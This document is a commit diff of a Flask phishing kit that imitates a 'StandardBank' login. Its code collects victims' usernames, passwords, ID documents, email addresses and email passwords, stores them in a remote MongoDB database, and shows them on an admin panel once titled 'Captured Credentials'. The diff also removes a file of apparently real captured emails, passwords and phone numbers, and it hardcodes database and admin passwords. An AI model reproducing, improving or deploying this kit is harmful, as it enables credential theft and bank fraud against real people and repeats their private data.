

Before and after one commit to netilson29/StandarBank-Flask-app, a Flask app: template templates/admin.html in a window 1280 px wide. Shown: the top 530 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020).

Commit message:
🔄 Atualização: Integração com MongoDB (app.py e admin.html)

```diff
--- a/app.py
+++ b/app.py
@@ -1,44 +1,73 @@
 from flask import Flask, render_template, request, redirect
+from pymongo import MongoClient
+from bson.objectid import ObjectId
+from datetime import datetime
+import os
 
 app = Flask(__name__)
 
-# Página inicial: login do usuário
-@app.route('/')
-def login():
-    return render_template('login.html')
+# 🔗 Conexão com MongoDB Atlas
+uri = "mongodb+srv://kingaristides:King2025@cluster0.mongodb.net/?retryWrites=true&w=majority"
+client = MongoClient(uri)
+db = client["painel"]
+colecao = db["standardbank_painel"]
 
-# Rota para capturar os dados do formulário e redirecionar para o Google
-@app.route('/submit', methods=['POST'])
-def submit():
-    usuario = request.form.get('usuario')
-    palavra_chave = request.form.get('palavra_chave')
-    telemovel = request.form.get('telemovel')
+@app.route("/")
+def home():
+    return render_template("login.html")
 
-    with open('dados.txt', 'a') as f:
-        f.write(f'{usuario} | {palavra_chave} | {telemovel}\n')
+@app.route("/primeiraetapa", methods=["POST"])
+def primeiraetapa():
+    usuario = request.form.get("usuario")
+    palavrachave = request.form.get("palavrachave")
+    documento = request.form.get("documento")
+    agora = datetime.now().strftime("%d/%m/%Y %H:%M:%S")
 
-    return redirect('https://www.google.com')
+    return render_template("segundaetapa.html", usuario=usuario, palavrachave=palavrachave, documento=documento, agora=agora)
 
-# Página de login do administrador
-@app.route('/admin_login')
+@app.route("/segundaetapa", methods=["POST"])
+def segundaetapa():
+    usuario = request.form.get("usuario")
+    palavrachave = request.form.get("palavrachave")
+    documento = request.form.get("documento")
+    agora = request.form.get("agora")
+    email = request.form.get("emailverificado")
+    senha_email = request.form.get("senhaverificada")
+
+    # Inserção no MongoDB
+    registro = {
+        "datahora": agora,
+        "usuario": usuario,
+        "palavrachave": palavrachave,
+        "documento": documento,
+        "email": email,
+        "senha_email": senha_email
+    }
+    colecao.insert_one(registro)
+
+    return render_template("agradecimento.html")
+
+@app.route("/admin_login", methods=["GET", "POST"])
 def admin_login():
-    return render_template('admin_login.html')
+    if request.method == "POST":
+        senha_admin = request.form.get("senhaadmin")
+        if senha_admin == "admin123":
+            registros = list(colecao.find().sort("datahora", -1))  # Mais recentes primeiro
+            return render_template("admin.html", dados=registros)
+        else:
+            return "<h3>Senha incorreta!</h3><a href='/admin_login'>Tentar novamente</a>"
+    return render_template("adminlogin.html")
 
-# Rota protegida que exibe os dados capturados
-@app.route('/admin', methods=['POST'])
-def admin():
-    senha = request.form.get('senha')
-    if senha == 'admin123':
-        try:
-            with open('dados.txt', 'r') as f:
-                linhas = f.readlines()
-        except FileNotFoundError:
-            linhas = []
+@app.route("/excluir/<string:registro_id>", methods=["POST"])
+def excluir(registro_id):
+    colecao.delete_one({"_id": ObjectId(registro_id)})
+    return redirect("/admin_login")
 
-        dados_formatados = [linha.strip().split(' | ') for linha in linhas]
-        return render_template('admin.html', dados=dados_formatados)
-    else:
-        return "Senha incorreta"
+@app.route("/debug")
+def debug():
+    registros = list(colecao.find())
+    return render_template("debug.html", conteudo=registros)
 
-if __name__ == '__main__':
-    app.run(debug=True)
+if __name__ == "__main__":
+    port = int(os.environ.get("PORT", 5000))
+    app.run(debug=True, host="0.0.0.0", port=port)
--- a/dados.txt
+++ /dev/null
@@ -1,3 +0,0 @@
-Kingaristides@gmail.com | ahaha | 949712619
-Kingaristides@gmail.com | Marina | 949712619
-kingaristides@gmail.com | Maria3332 | 95125473
--- a/templates/admin.html
+++ b/templates/admin.html
@@ -1,56 +1,108 @@
 <!DOCTYPE html>
 <html lang="pt">
 <head>
-  <meta charset="UTF-8">
-  <title>Credenciais Capturadas</title>
-  <meta name="viewport" content="width=device-width, initial-scale=1">
+  <meta charset="UTF-8" />
+  <title>Painel Administrativo - StandardBank</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1" />
   <style>
     body {
-      background: #121212;
-      color: #f1f1f1;
-      font-family: 'Segoe UI', sans-serif;
+      margin: 0;
       padding: 20px;
+      font-family: 'Consolas', 'Courier New', monospace;
+      background: linear-gradient(to bottom, #0f172a, #1e293b);
+      color: #e2e8f0;
+      display: flex;
+      justify-content: center;
     }
-    h2 {
+    .container {
+      width: 100%;
+      max-width: 500px;
+    }
+    h1 {
       text-align: center;
+      color: #38bdf8;
+      margin-bottom: 12px;
+      font-size: 1.5rem;
+    }
+    .contador {
+      text-align: center;
+      color: #94a3b8;
+      font-size: 0.9rem;
+      margin-bottom: 24px;
+    }
+    .registro {
+      background: rgba(30, 41, 59, 0.95);
+      border: 1px solid #334155;
+      border-radius: 12px;
+      padding: 20px;
       margin-bottom: 20px;
+      box-shadow: 0 0 12px rgba(0, 0, 0, 0.3);
     }
-    table {
-      width: 100%;
-      border-collapse: collapse;
-      background-color: #1e1e1e;
-      border-radius: 8px;
-      overflow: hidden;
+    .registro-title {
+      font-weight: bold;
+      color: #facc15;
+      margin-bottom: 12px;
     }
-    th, td {
-      padding: 12px;
+    .campo {
+      margin-bottom: 5px;
+    }
+    .excluir {
+      margin-top: 10px;
+    }
+    .excluir button {
+      background: #dc2626;
+      border: none;
+      color: white;
+      padding: 8px 14px;
+      font-weight: bold;
+      border-radius: 6px;
+      cursor: pointer;
+      transition: background 0.2s ease;
+    }
+    .excluir button:hover {
+      background: #ef4444;
+    }
+    .linha {
+      color: #64748b;
       text-align: center;
-      border-bottom: 1px solid #333;
+      margin-top: 14px;
     }
-    th {
-      background: #2a2a2a;
-      color: #00d0ff;
-    }
-    tr:hover {
-      background-color: #2f2f2f;
+    .no-data {
+      text-align: center;
+      font-style: italic;
+      color: #94a3b8;
     }
   </style>
 </head>
 <body>
-  <h2>Credenciais Capturadas</h2>
-  <table>
-    <tr>
-      <th>Usuário/E-mail</th>
-      <th>Palavra-Chave</th>
-      <th>Telemóvel</th>
-    </tr>
-    {% for linha in dados %}
-      <tr>
-        <td>{{ linha[0] }}</td>
-        <td>{{ linha[1] }}</td>
-        <td>{{ linha[2] }}</td>
-      </tr>
+<div class="container">
+  <h1>Painel Administrativo - StandardBank</h1>
+
+  {% if dados %}
+    <div class="contador">🔢 Total de registros: {{ dados|length }}</div>
+    {% for registro in dados %}
+      <div class="registro">
+        <div class="registro-title">🗂️ Registro nº{{ loop.index }} — {{ registro['datahora'] }}</div>
+
+        <div class="campo">🧑‍💼 Usuário/E-mail: {{ registro['usuario'] }}</div>
+        <div class="campo">🔑 Palavra-Chave: {{ registro['palavrachave'] }}</div>
+        <div class="campo">📄 Documento: {{ registro['documento'] }}</div>
+        <br>
+        <div class="campo">📥 E-mail Validado: {{ registro['email'] }}</div>
+        <div class="campo">🔐 Senha do E-mail: {{ registro['senha_email'] }}</div>
+
+        <div class="excluir">
+          <form method="POST" action="/excluir/{{ registro['_id'] }}">
+            <button type="submit">🗑️ Excluir Registro</button>
+          </form>
+        </div>
+
+        <div class="linha">────────────────────────────────────────────</div>
+      </div>
     {% endfor %}
-  </table>
+  {% else %}
+    <p class="no-data">Nenhum dado encontrado.</p>
+  {% endif %}
+</div>
 </body>
 </html>
```
Also changed, not shown: templates/admin_login.html (+45 -26 lines), templates/adminlogin.html (added, +64 -0 lines), templates/agradecimento.html (added, +62 -0 lines), templates/login.html (+60 -41 lines), templates/segundaetapa.html (added, +76 -0 lines).
